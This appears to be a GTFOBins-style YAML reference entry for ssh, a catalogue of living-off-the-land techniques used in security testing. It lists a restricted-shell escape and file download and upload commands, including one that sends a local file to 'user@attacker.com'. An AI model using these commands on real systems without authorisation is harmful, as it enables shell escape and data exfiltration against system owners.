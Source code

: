 ```yaml
---
functions:
  exec-interactive:
    - description: Reconnecting may help bypassing restricted shells.
      code: ssh localhost /bin/bash --noprofile --norc
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_get
        LPATH=where_to_save
        ssh $HOST "cat $RPATH" > $LPATH
  upload:
    - description: Send local file to a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=where_to_save
        LPATH=file_to_send
        ssh $HOST "cat > $RPATH" < $LPATH
---
```

